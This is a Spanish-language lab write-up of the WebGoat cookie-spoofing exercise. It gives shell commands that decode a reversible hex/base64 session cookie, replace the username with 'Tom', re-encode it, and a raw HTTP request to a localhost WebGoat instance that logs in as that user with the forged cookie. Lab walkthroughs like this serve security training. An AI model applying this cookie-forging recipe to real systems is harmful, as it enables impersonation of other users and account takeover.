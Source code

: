El Set-Cookies siempre es enviado por el servidor, cuando un usario autetifica su sesion. Recuerda que del lado del cliente siempre enviamos cookies para validar sesion este o no conectado, esto lo hacen para guardar historial u otras cosas.

>[!NOTE]
>It is crucial for the security of the authentication system that the cookie generation algorithm remains secure and not easily guessable. If an attacker can predict or determine the algorithm, they may be able to generate valid authentication cookies for different users, thereby bypassing the authentication mechanism and impersonating other users.


## Comando para desifrar el cookie de una sesion

El siguiente comando funciona para decodificar un base64, luego con xxd lo que hacemos es el leer el hexadecimal ya que es el resultado del base64 decode y una vez que tenemos el hex ocupamos el comando xxd para poder leer el hexadecimal y ocupar un rev ya que la cadena string viene desordeanada. 

```zsh 
# Con esto decodificamos
# Es mejor ocupar el -n para evitar el salto de pagina

echo -n "NzY2YTY3NjE1NzRiNzA2NTc5NmI2ZTY5NmQ2NDYx" | base64 --decode | xxd -r -p | rev

```

En base al resultado que nos da solo modificamos el string que es nuestro usuario y lo cambiamos por el de Tom,despues aplicamos un rev, lo convertimos a hexadecimal y luego ocupamos el comand tr para eliminar los saltos de paginas que nos da el xxd -p, es de suma importancia esto, ya despues lo volvemos a codificar.

```zsh

echo -n "TomkyepKWagjv" | rev | xxd -p | tr -d '\n' | base64

```

Al tener nuesto resultado lo que tenemos que hacer es enviar el comando con un POST pero ya con nuestro cookie spoof mas el cookie de la sesion.

```zsh
POST http://localhost:8080/WebGoat/SpoofCookie/login HTTP/1.1
host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
content-length: 29
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/WebGoat/start.mvc?username=alffy-root
Cookie: JSESSIONID=390CNJu58mrVnb1fEP4cjtcxVcG50RLK5kZ1R67h; spoof_auth="NzY2YTY3NjE1NzRiNzA2NTc5NmI2ZDZmNTQ="
---------------------------------------------------------------
username=admin&password=admin
```

Si nos damos cuenta no es necesario ocupar otro nombre de usuario, lo que estamos haciendo es que nos logeamos con nuestras credenciales pero en el backend le estamos deiciendo que en realidad somo Tom. Ojo esto solo es valido cuando los cookies aun estan disponibles ya que hay que recordar que usualmente expiran. Por eso es importante protejer las cookies con un buen hash y cada cierto tiempo renovarlas. 
